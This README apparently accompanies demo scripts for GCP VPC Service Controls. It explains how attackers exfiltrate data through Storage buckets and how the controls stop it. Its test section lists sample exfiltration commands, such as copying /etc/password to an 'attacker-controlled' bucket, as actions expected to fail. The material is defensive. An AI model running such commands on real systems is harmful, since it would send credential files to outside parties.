 
# VPC Service Controls demo scripts

VPC Service Controls are an excellent tool to prevent data exfiltration and other attack chains.
This repo supports the blog describing this at ___.

In a nutshell, data exfiltration is easy via GCP Storage Buckets despite best parctices to lock down networking with aggressive network egress policy. 
In order for cloud resources like VMs or Functions to access GCP Storage (other services like Cloud SQL or BigQuery also apply) the network proxy
must whitelist GCPs public dns names for the given services. This means an attacker can create a GCP Storage Bucket and exfiltrate to their own Bucket.
VPC Service Controls solve exactly this problem.

## Limitations working with VPC Service Controls
Beware that many services are currently incompatible with VPC Service Controls!
If your project uses these [listed services](https://cloud.google.com/vpc-service-controls/docs/supported-products) you
are in luck. Otherwise you may need to check back later, use separate projects for unsupported services or create access-levels.


## Tests
Let's start with what we are trying to prove. Our scripts support a multi-tenant scenario where a tenant can write to buckets in their own project and
a specific bucket in a project shared amongst all tenants.

The following approved bucket activities should succeed assuming we have ssh'd into a vm.
* Create a bucket in the tenant project
* Upload data to the tenant bucket
* Upload data to the tenant's bucket in the shared project
```
vm-in-tenant1-project> gsutil mb gs://tenant1-project-bucket
vm-in-tenant1-project> gsutil cp localfile.txt gs://tenant1-project-bucket
vm-in-tenant1-project> gsutil cp localfile.txt gs://tenant1-shared-project-bucket --project $SHARED_PROJECT_ID --region $REGION
```

The following malicious exfiltration and tampering activities should fail
* Upload malicious data to another tenant's bucket in the shared project
* Exfiltrate data to a victim tenant bucket in the shared project
* Ingress/Egress to any internet endpoint outside of the VPC
```
vm-in-tenant1-project> gsutil cp /etc/password gs://attacker-controlled-project-bucket
vm-in-tenant1-project> gsutil cp /etc/password gs://tenat2-shared-project-bucket
vm-in-tenant1-project> curl -X GET www.google.com
```
